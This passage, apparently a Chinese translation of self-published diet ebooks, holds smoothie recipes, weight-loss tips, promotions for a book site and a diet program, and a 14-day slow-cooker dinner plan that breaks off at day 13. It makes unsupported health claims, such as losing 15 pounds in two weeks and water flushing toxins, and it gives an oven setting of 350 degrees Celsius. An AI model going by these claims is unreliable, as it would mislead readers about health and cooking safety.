将食材榨至顺滑。倒入杯中即可饮用。

### 草莓香蕉思慕雪

食材：

- 半杯草莓
- 1根香蕉
- 1杯牛奶
- 少许肉桂粉
- 1汤匙枫糖浆

将食材榨至顺滑。倒入杯中即可饮用。

### 桃子蓝莓思慕雪

食材：

- 一杯半桃子
- 半杯蓝莓
- 四分之三杯牛奶

将食材榨至顺滑。倒入杯中即可饮用。

### 浆果美味思慕雪

食材：

- 一杯蓝莓
- 1根香蕉
- 少许肉桂粉
- 1茶匙可可粉
- 半杯菠菜
- 半杯芒果
- 牛奶加至满杯

将固体食材搅打至顺滑，然后加入牛奶再次搅打。倒入杯中即可饮用。


### 橙子、葡萄柚和菠菜奶昔
配料：
- 1个橙子
- 四分之一个葡萄柚
- 半杯菠菜
- 一把树莓
- 一汤匙奇亚籽
- 3颗草莓

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 菠萝、花椰菜和梨奶昔
配料：
- 半杯菠萝块
- 半杯西兰花
- 1个梨
- 足够的水装满至顶部

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 芒果、猕猴桃和香蕉奶昔
配料：
- 一杯切块芒果
- 1个猕猴桃（去皮）
- 1根香蕉
- 2杯原味酸奶
- 1杯切块菠萝
- 一杯冰块

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 猕猴桃和香蕉能量提升奶昔
配料：
- 3个猕猴桃
- 1根香蕉
- 一把菠菜
- 一杯牛奶
- 一杯大麻籽
- 1茶匙葵花籽

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 蓝莓、草莓和香蕉奶昔
配料：
- 一杯蓝莓
- 4颗草莓
- 1根香蕉
- 一把菠菜
- 一杯牛奶
- 2汤匙奇亚籽

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 草莓、薄荷和菠菜奶昔
配料：
- 5颗草莓
- 1茶匙薄荷叶
- 1杯菠菜
- 一杯水
- 2杯牛奶

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

以上部分食谱比较厚重，所以请确保如果需要的话添加额外的水或牛奶。或者，你也可以加入一些果汁，以获得额外的柑橘味提振，或简单地确保你每天吃更多种类的水果。

如果发现你的柑橘奶昔比较厚重或充满颗粒，请咀嚼这些颗粒，而不是吞下去。这将有助于确保你的身体产生较少的气体，并且也会让你感觉饱足更久一些。

## 第 6 章：甜味奶昔食谱

以下甜味奶昔食谱非常适合有甜食爱好的人，或想犒赏自己的人。以下食谱脂肪含量不高，但与其它奶昔相比，帮助减肥的效果不会那么明显。

如果你的孩子喜欢甜食，但他们的饮食状况不如你所愿，或你想鼓励他们饮用奶昔，那么不时给他们提供甜味奶昔。逐渐给孩子提供甜度不那么高的奶昔，让他们习惯食用美味且营养的水果和蔬菜。

### 巧克力、杏仁和菠菜奶昔
配料：
- 1汤匙甜味或无糖可可粉
- 1杯半杏仁奶
- 一把菠菜
- 2颗葡萄
- 2颗草莓
- 1根香蕉
- 1汤匙亚麻籽油

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 巧克力香草奶昔
配料：
- 15至20克巧克力碎片或刨花
- 1汤匙香草调味料
- 半杯酸奶（最好是希腊酸奶）
- 1汤匙大麻粉

### 花生酱和香蕉奶昔
配料：
- 半杯花生酱
- 1茶匙可可粉
- 半杯脱脂牛奶

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 巧克力、甜菜和草莓奶昔
配料：
- 2茶匙可可粉
- 6颗草莓
- 一把菠菜
- 四分之一颗甜菜根
- 1杯半牛奶

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 椰子、香蕉和巧克力奶昔
配料：
- 1茶匙新鲜或干的刨椰子
- 1根香蕉
- 1茶匙可可粉
- 一把菠菜
- 一杯椰子水
- 8颗杏仁

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 橙子和柠檬奶昔
- 1个橙子
- 半个葡萄柚
- 1汤匙柠檬汁
- 半杯香草酸奶
- 半汤匙奇亚籽
- 1汤匙蜂蜜
- 一杯牛奶

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 苹果和肉桂奶昔
配料：
- 1个苹果
- 1个梨
- 少许肉桂
- 一杯牛奶

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

### 巧克力和草莓奶昔
配料：
- 1茶匙可可粉
- 2杯牛奶
- 4-6颗草莓

将配料榨汁至顺滑。倒入玻璃杯中即可享用。

请不要害怕尝试食谱创意。以上食谱只是让你入门，你可以根据自己的喜好调整它们。从零开始制作自己的奶昔，并尝试不同种类的牛奶、不同口味的酸奶以及你能想到的任何其他配料。

请记住，构成甜味奶昔的一些配料可能相当高热量（例如花生酱）。这就是为什么不要太频繁饮用的重要原因。如果你决定经常饮用甜味奶昔，请选择低热量和低脂肪的配料。这会让你更有可能减肥，而这正是本奶昔计划的目的。好消息是市面上有许多美味的低热量和低脂肪产品，所以在享受甜味奶昔时没有理由在口味上妥协。

## 第 7 章：提示和技巧

开始新的饮食计划从来都不容易，但必须说这个特定的计划很可能是你会遇到的最容易的计划之一。在这个计划中你感到饥饿绝对没有理由。你将食用的水果和蔬菜中含有的纤维很可能会让你感到饱足。

如果你坚持计划，你将在两周内减掉多达15磅。此外，你的精力会更充沛，你的皮肤也可能会看起来更好。尽管14天奶昔计划并不太难，你可能会欣赏一些提示和技巧来帮助你顺利进行：

### 关于牛奶的说明
如果你像我一样乳糖不耐受，你就不想饮用牛奶。好消息是如今有许多替代品可用。用豆奶、杏仁奶、椰奶或米奶代替。我个人选择甜味豆奶，因为它比无糖的味道更好，而且使用苹果汁作为甜味剂，而不是糖。

### 水
请确保在整个奶昔计划期间保持水分充足。不仅水能解渴，而且它还能作为抗氧化剂，帮助排出毒素。大量饮水也有助于缓解压力，还可能帮助你减肥。每天享受8杯好东西，拥有更好的皮肤，并在夜间睡得更好。

### 运动
你很可能会在这个计划中减肥，同时提高你的能量水平。但如果你在日常中加入运动，你会发现效果更有效。你不必运动更多，事实上你不必比现在运动更多就能实现减肥。只要知道多一点运动将有助于加快你想要的减肥速度。

### 冷藏那些奶昔
为了确保你的奶昔的新鲜度和质量保持在最大程度，你应该尽快将奶昔冷藏。我知道你们中有些人可能带到工作，途中可能在去办公室的路上变得稍微温暖，但请在到达后将它们放入冰箱。

如果有剩余，也请冷藏，并尽量尽快食用。本电子书中包含的所有奶昔应保持新鲜2天，但如果保存更长时间，它们可能会开始变质。

### 记录你自己制作的奶昔
虽然你可能很乐意使用本电子书中包含的食谱，但你也可能想自己想出一些。最好的事情之一就是记录你自己制作的奶昔。你可能会想出一种非常营养且美味的食谱，如果你不写下来就太可惜了。记下它，这样你可以在另一天再次享用。


## 起初体重下降很多

每当任何人开始一个新的减肥或饮食计划时，他们往往会在短时间内减掉相当多的体重。这很自然，但不可持续。随着时间的推移，你减掉的体重不会像刚开始时那么多。我知道这可能会令人沮丧，但这就是会发生的情况。你的减重速度会放缓，但这并不意味着你不会再减重了。

坚持计划，即使你看起来不再减重，因为它很可能对你有益。

## 如果你想再次进行计划

有些人喜欢多次进行14天果昔计划。虽然这可能是一种有效且愉快的方式来减肥，但你可能希望在几周内恢复到正常的饮食模式。顺便说一下，在这几周里，如果你之前摄入了大量脂肪、糖和盐，你可能希望吃健康均衡的饮食，而不是回到旧的饮食方式。

一旦你坚持健康均衡的饮食几周后，再尝试14天果昔计划。

如果你决定将计划坚持超过14天，请确保你正在吃正餐，并且你的饮食是健康的。

## 结论

再次感谢你下载这本书！

我希望这本书能在14天内帮助你减肥并提高你的能量水平。

下一步是购买食材，以便你能享用营养美味的果昔。

最后，如果你喜欢这本书，我想请你帮个忙，你能好心为这本书在亚马逊上留下评论吗？将不胜感激！

[点击此处为本书在亚马逊上留下评论！](#)

谢谢并祝好运！

## 奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了巨大的价值。为了感谢你，我想免费赠送你更多与健康相关的视频、书籍和信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想要改变饮食和健康状况，将对你有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

嘿，我希望你喜欢我的书。我想为你提供更多价值，所以我想给你一些免费内容，以及我最近尝试过的一种饮食的信息，这种饮食帮助我减掉了顽固的多余脂肪。

这个项目给了我减掉顽固多余脂肪并感觉年轻10岁的策略！

这个项目叫做 The Fat Diminisher。这种饮食在帮助人们实现减肥目标方面取得了巨大成功。这个项目不仅帮助你减掉不想要的脂肪，还教你如何永久保持不反弹！

在短时间内减肥一直被认为几乎是不可能完成的任务。多年以来，医生和营养师一直告诉公众，要看到减肥的任何进展，或塑造完美身材，需要数月甚至数年的努力。但这完全不是真的。

人体具有高度适应性，能够在极短的时间内发生变化。想想看。如果人们可以通过几周的不健康饮食迅速增加大量脂肪，那么他们是否也能通过几周的健康饮食迅速减掉很多体重呢？当然可以。

但你需要吃什么才能快速减肥呢？从低碳水化合物到低脂肪，到无糖，到高蛋白，甚至‘穴居人’饮食——选择太多了，普通人很难弄清楚应该使用哪种饮食来快速减肥。其中一些饮食甚至对你应该吃什么、不应该吃什么提供了相互矛盾的信息。好吧，这一切即将改变。

*现在就观看视频！*

如果你还没有，请务必查看我的新网站，KindleBookSpot.com。这是我一直在进行的一个新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的 Kindle 书籍的折扣价。以下是我的网站的一些详细信息：

- 最畅销免费 Kindle 书籍的列表
- 打折的小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅面向读者，也是新晋作者在他们的书籍成为畅销书之前推广新书的地方。所以如果你想推广自己的书籍，请查看我的网站，KindleBookSpot.com。

我希望这个网站对你有用，也希望在那里见到你！

订阅 KindleBookSpot 的不断壮大的社区，以便在最好的书籍打折和免费时收到通知。

# 14天一锅到底晚餐食谱书

*快速简单的倒料晚餐食谱*

*我最喜欢的饮食的奖励信息*

*在 [KindleBookSpot.com](KindleBookSpot.com) 享受更多免费和特价书籍*

## 目录

- 引言
- 第1天
  - 鸡肉焗烤
- 第2天
  - 俄罗斯杏子鸡
- 第3天
  - 鸡肉莎莎
- 第4天
  - 牛肉 Stroganov
- 第5天
  - 芝士牛肉西兰花
- 第6天
  - 牛仔鸡
- 第7天
  - 托尔特里尼焗烤
- 第8天
  - 夏威夷鸡
- 第9天
  - 墨西哥鸡肉千层面
- 第10天
  - Frito 辣椒派
- 第11天
  - 匈牙利牛肉汤
- 第12天
  - 牛肉烤肉
- 第13天
  - 金色鸡肉配面条
- 第14天
  - 牧场鸡
- 结论

## 引言

我们都生活在一个忙碌的世界，很少有时间待在厨房做美味的食物。我们都渴望美味的家常晚餐，但遗憾的是，只有少数人能从繁忙的日程中抽出时间准备一道耗时菜肴。为了满足对美味食物的渴望，我们去昂贵的餐厅并在那里支付高额费用。但即使是餐厅的味道也会在一段时间后变得乏味，你开始渴望家里的食物，对吧？

好吧，当你的日程安排很紧张，太忙无法为家人做美味食物时，请参考我们书中提到的食谱。这些食谱都是倒料晚餐食谱，这意味着你只需把所有东西倒进炖锅里，让炖锅为你完成工作。在这期间你可以去办公室，享受你最喜欢的节目，好好睡一觉，完成家务或简单地去购物。这些倒料晚餐食谱完全是救命的菜肴，尤其是在你太累或太忙无法在家准备晚餐的日子里。有了这些超级快又超级简单的食谱，你无需额外费力，就能回家享用全家人美味的餐食。听起来很令人兴奋，对吧？

所以翻阅页面看看我们为你准备了什么。我们为你们准备了14天计划，这样你就不用担心每天用美味晚餐喂饱自己。每道菜都独一无二，充满风味，你会喜欢它们制作的简易性。所以发挥你内心的创意厨师，尝试我们提到的食谱，尽情享受美味晚餐，付出最少的努力！

## 开始之前...奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了巨大的价值。为了感谢你，我想免费赠送你更多与健康相关的视频、书籍和信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想要改变饮食和健康状况，将对你有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！


## 第1天

我们知道每天决定晚餐吃什么有多么令人压力。我们也知道站在厨房里做美味晚餐有多困难。工作表现良好却还要用疲惫的身体做出好晚餐，往往变得极其困难。因此在第1天，我们为你推荐了一道简单却美味的食谱，不需要花费太多时间和精力。

### 鸡肉焗烤

我们为你准备的第一道食谱是鸡肉焗烤。这是一道超级简单的菜肴，其味道和美味也会让你惊叹。鸡肉非常容易制作，而且所用食材都是你在家就能轻松找到的。这道菜需要米饭，混合鸡肉美乃滋和一些其他奶油类食材，会让晚餐时这道菜非常诱人。你只需将所有食材混合，放入烤箱烤 40 分钟就完成了。这道食谱非常适合那些没有足够时间做晚餐，却又想在家享用美味可口食物的日子。

你需要以下食材来制作这道简单的菜肴：

- 鸡肉浓汤：1 罐
- 熟鸡肉，最好是烤鸡：3 杯
- 熟米饭：3 杯
- 切片杏仁：½ 杯
- 芹菜：3/4 杯并切丁
- 美乃滋：½ 杯
- 玉米片：约 3/4 杯
- 融化黄油：2 大勺

#### 方法：

取一个大烤盘，将上面提到的所有食材倒进去。将所有食材充分混合，并在顶部撒上玉米片以增加酥脆感。你也可以在顶部加一些黄油以提升风味。混合好所有食材后，只需将菜肴放入预热好的烤箱（350 度）中，然后放松。超级简单的菜肴大约需要 40 分钟即可准备好供你享用。当焗烤菜达到你的口味和喜好时取出。烤箱取出后享用超级美味的鸡肉。听起来很简单，对吧？每当你想在家享受美味又省心的晚餐时，都可以做这道菜。

## 第2天

对于第二天，我们推荐了一道更简单的食谱。这道简单的食谱是俄式杏子鸡，不仅味道鲜美诱人，而且制作也相当简单快捷。这道食谱最好的地方在于你需要的食材数量。可能难以置信，但你只需四种简单的食材就能做出超级美味的菜肴。食材少，烹饪时间更短，使这道菜成为经久不衰的喜爱之选。这道食谱深受那些想要美味家常晚餐却没有足够时间做复杂菜肴的女性欢迎。

### 俄式杏子鸡

就像之前的食谱一样，你所需要做的就是将所有食材充分混合，然后让烹饪器完成工作。这是一道慢炖锅食谱，因此烹饪器需要大约 8 小时才能完全煮熟鸡肉。这对你们中的一些人来说可能听起来时间很长，但可以在傍晚开始烹饪，这样晚上就能享用美味晚餐。在此期间，你可以完成所有家务、去购物、参加活动、做一些办公室工作或 simply 小睡一会儿。

下面就是你用来制作这道超级简单菜肴的四种食材：

- 去骨鸡胸肉：约 2 磅
- 杏子果酱：1 罐或 12 盎司
- 洋葱：½ 个并切碎
- 俄式沙拉：1 瓶

#### 方法：

制作这道菜时，你需要在碗中搅拌杏子果酱、俄式沙拉和洋葱几分钟。下一步就是简单地将鸡肉放入烹饪器中，并将杏子混合物倒在上面。这就是制作这道菜所需做的全部。食材放入锅中后，放松并完成 8 小时的家务，然后享用香气四溢的晚餐。慢炖锅加上杏子混合物会使鸡肉变得非常多汁美味。鸡肉准备好后，你可以搭配煮熟的米饭或土豆泥一起享用。你也可以在杏子混合物中加入一些香料，如果你想要鸡肉更辣更美味的话。总之，这道菜是所有忙碌吃货的必备之选。

## 第3天

虽然之前的食谱含有四种食材，但第三天的食谱更简单、更快。食谱是鸡肉莎莎，只需要两种食材和一个压力锅。所以如果你有一天超级忙，8 小时内无法做任何额外工作，又非常渴望美味晚餐，只需在出门工作前制作这道食谱，然后回来享用美味的莎莎搭配多汁鸡肉。也不用担心准备时间。这道菜准备时间几乎只要十分钟，之后只需放入烹饪器即可。

### 鸡肉莎莎

我们都爱鸡肉，我们都爱莎莎。想象一下，如果我们把这两种美味食材结合在一起，会做出多么惊人的菜肴。这就是鸡肉莎莎——它将鸡肉的鲜嫩与莎莎的刺激结合，带来令人无法抗拒的菜肴。这道菜最好的地方在于制作的简易性。你只需将食材混合在慢炖锅中，你的晚餐就准备好了。

下面是制作这道超级简单菜肴所需的两种主要食材：

- 去骨鸡胸肉：4 块
- 你喜欢的莎莎酱：2 杯

#### 方法：

方法也相当简单。你只需将鸡肉放入锅中，并用你喜欢的莎莎酱充分覆盖。如果你不会长时间空闲吃饭，可以在慢炖锅中炖 8 小时。你也可以在普通压力锅中烹饪，大约需要 4 小时才能完全煮熟。判断菜肴是否煮熟的一种方法是看你是否能轻松撕开鸡肉。如果鸡肉变得足够软可以轻松撕开，就撕开鸡肉，加入一些香料、盐和胡椒，享用美味的晚餐菜肴。你也可以将菜肴密封保存在密封容器中冷冻，以备无法做饭的日子使用。这道菜大约有 6 杯，也可与许多其他墨西哥菜一起食用。所以展现你的创意，与你喜欢的沙拉或配菜一起享用这道超级简单的食谱。

## 第4天

这次让我们远离平常的鸡肉晚餐例行公事。对于第4天，我们为你带来一道美味的牛肉餐，它不仅以好味道闻名，也以烹饪的简易性著称。这道食谱非常适合那些需要外出很长时间，却仍希望回家时能享用到完美烹饪的晚餐的日子。这道菜是牛肉 Stroganov，不仅易于烹饪，而且是牛肉与 Stroganov 的美味结合。这道菜最好的地方在于它只需要很少的食材，因此完全不需要费力。

### 牛肉 Stroganov

牛肉 Stroganov 是一道易于制作的食谱，一旦你制作并品尝就会爱上它。它具有肉类的美味和鸡蛋面与酸奶油的奶油风味。这道食谱在高火烹饪下大约需要 4-5 小时，但你也可以用小火烹饪，将烹饪时间延长至约 7 小时。因此，如果你外出约 7 小时，你所要做的就是将下面提到的食材混合在慢炖锅中，回家就能享用到美味烹饪的牛肉 Stroganov。让我们看看这道食谱需要什么食材：

- 切成小块的炖肉：2 磅
- 洋葱汤料混合包：1 包
- 蘑菇：1 罐
- 蘑菇浓汤：1 罐或约 11 盎司
- 玉米淀粉：1-2 大勺
- 姜汁汽水：12 盎司或 1 罐
- 酸奶油：8 盎司 适量
- 鸡蛋面：1 包

#### 方法：

制作这道菜时，你只需将所有食材一起加入锅中，除了面条、酸奶油和淀粉，让锅发挥魔力。在烹饪时间结束前约 1 小时，你需要加入酸奶油和玉米淀粉，然后准备面条以搭配 Stroganov。所以你看，这道菜非常简单易做。准备时间很短，你不需要做任何繁重的工作就能为你和家人准备一顿美味的餐点。


## 第5天

你喜欢尝试新菜系但太忙没时间尝试吗？你是否因为日程繁忙，只在餐厅享受中餐和意式料理，而在家却不吃？如果是这样，你就不再需要出门也能在家享受美味的中餐了。我们为你准备了一道非常简单的中式食谱，准备起来几乎只需要几分钟。这道菜是芝士牛肉西兰花，既令人垂涎又超级快做。

### 芝士牛肉和西兰花

就像本书迄今为止提到的所有食谱一样，这道菜以制作简便著称。你不必花几个小时在厨房为家人准备一道好的中餐，因为这道食谱只需要把所有食材倒进电锅，让电锅完成工作即可。你只需要在最后花一点时间给菜肴做最后的修饰。让我们看看具体做法。

这道菜需要以下食材：

- 牛肉肩肉：1磅
- 牛肉汤：约1杯
- 酱油：½杯
- 芝麻油：1汤匙
- 红糖：1/3杯
- 切碎大蒜瓣：3瓣
- 西兰花：2杯
- 水：2汤匙
- 玉米淀粉：2汤匙
- 煮熟或炒饭：按需

#### 方法：

虽然食材清单看起来很长，但烹饪方法相当简单。第一步，将牛肉汤与芝麻油、大蒜、红糖和酱油一起倒入电锅中搅拌均匀。然后加入牛肉，再次搅拌。下一步，让食材在电锅中放置约6小时，之后加入水和玉米淀粉，再煮约半小时，使酱汁充分煮熟。最后加入西兰花，煮几分钟，即可与米饭一起享用这道美味的中餐。这道菜在烹饪开始时和结束时各只需要几分钟。中间的时间你可以放松并完成未完成的工作。

## 第6天

下一道食谱也相当简单。它是一道超级美味的菜肴，风味丰富，食材也很容易找到。这道菜被称为牛仔鸡，你会发现它有多容易制作。这道食谱也适合你忙碌6到7小时、没有时间在厨房为家人准备晚餐的日子。但有了像牛仔鸡这样的食谱，你就不用再担心晚餐了。

### 牛仔鸡

这道食谱也被称为“倒进去就走”食谱，因为它只需要把食材倒进电锅，让电锅准备好餐点。这道食谱还带有浓郁的西南风味，如果你在家尝试这道晚餐，你会吃到既不同又美味的食物。请看下面的做法，用这道美味又简单的食谱给家人一个惊喜。

以下为这道菜所需的食材：

- 西南椒三重鸡
- Ro-Tel：2罐
- 黑豆：1罐
- Mexi-corn：1罐

#### 方法：

烹饪这道菜的方法极其简单轻松。你只需要把四种食材加入电锅，让菜肴烹饪6小时即可。就这样！无需准备，也无需最后修饰。这道菜几乎不会占用你忙碌日程的几分钟，你就能得到一道毫不费力又美味的晚餐。你和家人都会喜欢这道菜的风味以及它制作的简便性。加入前请确保洗净并晾干豆子和Ro-Tel。

这道超级简单的食谱深受忙碌人士喜爱，他们忍不住每隔几天就重复制作这道菜。那么，你今晚要试试这道简单的食谱吗？

## 第7天

我们每天都喜欢吃美味的晚餐。不幸的是，我们大多数人都被工作和其他家务占据，没有足够的时间待在厨房为家人准备美味的餐点。在日程紧张的日子里，甚至花一个小时在厨房做点好吃的都是不可能的。但是，如果一道令人垂涎的晚餐能以最少的努力和最少的时间为你准备好，你会不会喜欢呢？我们都希望每天都能有这样的晚餐，尤其是在没有时间做饭的日子里。我们接下来介绍的这道食谱以烹饪简便和味道美味而闻名。你会喜欢它能在几分钟内做好，而无需你在厨房花费数小时的事实。这道菜是托尔特利尼焗烤。

### 托尔特利尼焗烤

托尔特利尼焗烤本质上是一种美味的意式面食焗烤，深受忙碌人士喜爱。它充满了丰富的风味，会让你一再想做、一再想吃。这道可供约6人食用的菜肴，烹饪时间几乎只需10分钟，准备时间也只需10分钟。因此在20分钟内你就能享用一道美味的晚餐。让我们看看在家制作这道菜所需的食材：

- 托尔特利尼：9盎司或1包，任意口味
- 巴马臣奶酪：3汤匙，刨丝
- 马苏里拉奶酪：约1杯半，刨丝
- 意大利面酱：约2杯
- 欧芹

#### 方法：

第一步，根据包装上的说明准备托尔特利尼。它几乎只需10分钟即可准备好。托尔特利尼准备好后，你只需加入意大利面酱，然后将裹好酱的托尔特利尼放入烤盘中。在托尔特利尼顶部撒上马苏里拉和巴马臣奶酪，使其充分覆盖。将烤箱预热至350摄氏度，然后让托尔特利尼在烤箱中烘烤，直到奶酪呈微褐色。取出后，可在顶部撒一些欧芹。因此在几乎20分钟内，一道美味的菜肴就准备好供你享用了。

## 第8天

第8天，让我们尝试点不同的东西。到现在为止，你可能已经对迄今为止呈现的菜系相似性感到厌倦了。因此本章重点介绍一种深受我们喜爱的、仍然易于制作的菜系。本章将介绍一道夏威夷菜肴，为各位美食爱好者提供丰富多样的风味。这道菜与之前的所有菜肴一样，非常简单易做，几乎只需15分钟。我们相信你会喜欢这道菜制作的简便性以及它提供的风味数量。这道菜是夏威夷鸡。

### 夏威夷鸡

夏威夷鸡本质上是一道慢炖锅食谱，这意味着它需要大约5小时才能做好。因此在这段时间里，你可以小睡一会儿、去购物或 simply 完成所有任务。这道菜的著名之处在于它含有多种多样的食材，从菠萝到橙子，再到姜和酱油。多样的风味不仅增加了菜肴的丰富性，也使其极具食欲。这道可供约7人食用的菜肴需要以下食材：

- 鸡胸肉：约6块
-  mandarins 橙：1罐或15盎司
- 菠萝片：1罐或16盎司
- 红糖：半杯
- 玉米淀粉：1/4杯
- 酱油：半杯
- 柠檬汁：1/4杯
- 姜粉：约1茶匙

#### 方法：

为了制作酱汁，你需要混合上面提到的所有食材，除了鸡肉、菠萝和橙子。将酱汁充分搅拌，使食材混合均匀。酱汁准备好后，将鸡肉放入锅中并倒入酱汁。下一步是在顶部加入菠萝和橙子，让锅在低温下烹饪约5小时。5小时后，锅里就会为你准备好一道美味的晚餐。你也可以将鸡肉与米饭一起享用，使晚餐更饱足。因此你不再需要去昂贵的餐厅才能享用到像夏威夷鸡一样美味的菜肴；只需15分钟的准备时间，它就能轻松在家享用。


## 第 9 天

下一道食谱仍然是一道非常简单却美味的菜。这道菜通常是你在家里享用的，但我们会在配料上稍作变化后呈现给你。这道菜最大的好处是你不必花费太多精力就能做好。这道菜准备起来几乎不超过 30 分钟，而且你不需要做任何辛苦的工作。这道菜也充满风味和美味，会受到所有家庭成员的喜爱，尤其是青少年。这道菜就是墨西哥鸡肉千层面。

### 墨西哥鸡肉千层面

墨西哥鸡肉千层面基本上是另一种形式的鸡肉安吉拉卷。不过，这种版本的安吉拉卷相当简单，而且比原版美味得多。这道食谱只需四个简单步骤。你需要把所有配料倒在一起，充分混合，铺一层，然后烘烤。虽然下面的配料看起来可能很多，但这些配料会让整道菜非常美味。让我们看看配料有哪些：

- 鸡肉：3 或 4 杯，切碎并煮熟
- 菲斯塔纳乔奶酪：1 罐
- 奶油鸡汤：1 罐
- Ro-Tel 番茄罐头：1 罐
- 孜然：1 茶匙
- 香菜：约 1/4 杯，切碎
- 玉米粒：1 杯
- 黑豆：1 罐
- 墨西哥混合奶酪：2 杯，切丝
- 腌墨西哥辣椒片：用于装饰
- 酸奶油：用于装饰
- 青柠角：用于装饰

#### 做法：

第一步是制作馅料，将鸡肉、汤、纳乔奶酪、香菜和番茄混合在一起。下一步只是把混合物和剩余配料分层放入烤盘。你可以在这里完全发挥创意，如果喜欢的话，可以加入不同的配料。创造性地将配料分层摆放，这样最终这道菜看起来会非常诱人。用铝箔纸盖住烤盘，然后把烤盘放入预热好的烤箱（350 华氏度）中烤 20 分钟。20 分钟后，去掉铝箔纸，让这道菜再烤 10 分钟。这样，在 30 分钟内无需辛苦劳作，你就能得到一顿美味的晚餐。

## 第 10 天

世界上有很多人觉得牛肉菜很无聊，也没那么美味。如果你也属于这一类，请阅读第 10 天的这道菜，因为我们为你呈现了一道非常美味的牛肉菜。这道菜风味浓郁，你会喜欢它的每一口。这道菜最大的好处是，它最适合那些你懒得花时间在厨房里，或者忙得没时间做复杂菜肴的日子。这道菜叫弗里托辣椒派，它能为你提供一顿美味的晚餐并节省你的时间，从而帮你轻松完成当天的任务。

### 弗里托辣椒派

弗里托辣椒派是一道简单的牛肉食谱，它有很多配料来增加风味的浓郁度。一旦你吃过这道菜，你就会喜欢上它超级简单却又如此美味可口的事实。做这道菜你不需要做任何辛苦的工作，因为锅会在 8 小时内为你把菜做好。在此期间，你可以做任何你想做的事，而不必担心为家人准备晚餐。以下是制作这道菜所需的材料：

- 牛肉：1.5 磅
- 番茄酱：8 盎司
- 蒜瓣：3 瓣，切碎
- Ro-Tel 番茄罐头：1 罐
- 番茄：15 盎司或 1 罐，切丁
- 盐：半茶匙
- 孜然粉：1 汤匙
- 牛至：1 茶匙
- 辣椒粉：1 或 2 汤匙
- 奇波雷塔巴斯科辣酱：1 汤匙
- 芸豆和斑豆：各 1 罐或各 14 盎司
- 玉米面：1/4 杯
- 水：半杯
- 弗里托斯玉米片：1 包

#### 做法：

虽然配料清单相当长，但做法非常简单。第一步是在锅中煮牛肉，直到它变成棕色，然后倒掉牛肉中的水分后加入大蒜。搅拌 2 分钟后，将配料转移到慢炖锅中，并加入除玉米面、弗里托斯玉米片和水之外的其他配料。慢炖锅大约需要 8 小时来烹饪，但在烹饪时间结束前 30 分钟，你可以在菜中加入水和玉米面。这道菜做好后，用切达奶酪、弗里托斯玉米片和酸奶油等配料装饰。

## 第 11 天

第 11 天，尝试一些传统又不同的菜。第 11 天我们建议你选择匈牙利炖牛肉，这是一道传统又美味的家庭晚餐。这道菜有很多传统风味，你的味蕾会喜欢这种不同于平常鸡肉和牛肉晚餐的变化。这道菜最大的好处是大约需要 10 小时才能完成。因此，在晚餐准备好之前，你会有很多时间完成所有家务。一旦你尝试这道菜，你一定会爱上它。

### 匈牙利炖牛肉

匈牙利炖牛肉是一道古老的菜肴，以其美味和易于烹饪而闻名。这道菜有很多配料，但仍然很容易准备。你只需要把所有配料倒进锅里，让锅在 10 小时里施展魔法。这道菜最适合那些你超级忙碌、没有额外时间烹饪美味饭菜的日子。让我们看看所需的配料。

- 炖肉：2 磅，切块
- 蒜瓣：1 瓣，应切碎
- 洋葱片：1 个
- 伍斯特酱：2 汤匙
- 番茄酱：半杯
- 红椒粉和盐：各 2 茶匙
- 红糖：1 汤匙
- 水：1 杯
- 面粉：半杯
- 芥末：半茶匙，干芥末

#### 做法：

第一步是将除洋葱和肉之外的所有配料混合，制成混合物。然后，你需要把肉、面粉和洋葱放入锅中，并将混合物倒在其上。最后一步只是盖上锅盖，放松 10 小时，等待肉做好。10 小时过后，用少量水溶解面粉，并加入肉中。再煮 15 分钟，你的菜就做好了。你可以搭配面条或米饭享用这道菜。

## 第 12 天

第 12 天，我们为你准备了一道最简单的食谱。这道食谱字面意义上就是“倒进去就走”，因为你所要做的就是把所有配料倒进慢炖锅，让它在低火下煮 6 到 8 小时。这道菜不仅容易做，味道也非常诱人。尽管这道菜是在慢炖锅中烹制的，但你会喜欢它提供的风味。这道菜是一道简单的烤牛肉，会让你吃了还想再吃。

### 烤牛肉

这道烤牛肉食谱以其好味道和易于烹饪而闻名。做好后它会给你很多风味肉汁，所以你不应指望这道菜会干巴巴、无聊乏味。你也可以搭配土豆泥享用这道菜，因为土豆会让这道菜的味道更加出色。以下是制作这道菜所需的配料：

- 肩部烤肉：4 磅
- 奶油蘑菇汤：1 罐
- 奶油土豆汤：2 罐
- 洋葱汤料包：1 包
- 胡椒博士汽水：2 杯
- 克里奥尔调味料：约 1 茶匙，用于调味

#### 做法：

做法极其简单。你只需要把所有配料混合在慢炖锅中，然后 6 到 8 小时内不用管晚餐。慢炖锅会用低火烹饪，当你在工作疲惫的一天后回到家时，它会奉上一道令人垂涎的菜。

## 第 13 天

第 13 天的菜是金汁鸡肉配面条。这道菜以其味道和制作简便而闻名。因此，我们把这道菜收录在书中，这样每当你没时间准备一顿好的家庭晚餐时，就可以做它。这道菜非常细腻可口，会让你吃了还想再吃。

### 金汁鸡肉配面条

